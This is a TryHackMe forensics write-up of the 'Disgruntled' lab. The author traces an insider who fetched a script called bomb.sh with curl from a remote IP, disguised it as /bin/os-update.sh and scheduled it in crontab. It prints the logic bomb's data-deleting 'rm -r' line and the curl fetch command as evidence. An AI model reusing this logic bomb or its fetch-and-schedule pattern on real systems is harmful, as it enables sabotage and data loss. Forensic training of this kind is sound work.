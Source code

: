 # Disgruntled
A TryHackMe box focusing on Linux forensics.

This box is created around the scenario of a disgruntled IT user conducting suspicious activity on the network. My job is to discover what they did and stop it. 

### 1. What commands did they run?

The user installed a package on the machine with elevated privledges. In order to find out what commands they ran I will be looking in the authentication logs or auth.log located in /var/log.

<p><span style="color:red"><em>cat auth.log | grep -i COMMAND</em></span></p>

The package they installed was named dokuwiki, which is an opensource wiki software written in PHP. The present owkring directory was /home/cybert. This user also created a user and a script file. This information can still be gathered by using the command above. 

```
User created - it-admin
Date sudo was given - Dec 28 06:27:34
Script file name - bomb.sh
```
To find more information on bomb.sh, I will be looking in the .bash_history file. The command used to created the file was curl 10.10.158.38:8080/bomb.sh --output bomb.sh. the file was then renamed and moved to the /bin folder as "os-update.sh". Fle contents below.  
```
if [ -z "$OUTPUT" ]; then
        rm -r /var/lib/dokuwiki
        echo -e "I TOLD YOU YOU'LL REGRET THIS!!! GOOD RIDDANCE!!! HAHAHAHA\n-mistermeist3r" > /goodbye.txt
fi
```
This file appears to delete service files if triggered. We can also see from the .bash_history, that the file was scheduled in crontab to go off at 08:00 as well.  
```
# History of marks within files (newest to oldest):

> /bin/os-update.sh
*16722089880
"60
root@ip-10-10-28-147:/home/it-admin# cat .bash_history 
whoami
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
ls
ls -la
cd ~/
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
sudo vi bomb.sh
ls
rm bomb.sh
sudo nano /etc/crontab
exit
root@ip-10-10-28-147:/home/it-admin# cd ../../et/crontab
-bash: cd: ../../et/crontab: No such file or directory
root@ip-10-10-28-147:/home/it-admin# cd ../../etc/crontab
-bash: cd: ../../etc/crontab: Not a directory
root@ip-10-10-28-147:/home/it-admin# cd ../..
root@ip-10-10-28-147:/# ls
```

After finding out all of that information we can succesfuly close the incident! 

TLDR : analyzed a machine to discover a disgruntled user downloaded a script that would delete all the files installed with a service if the use has not logged in to this machine in 30 days, a perfect example of a logic bomb. 

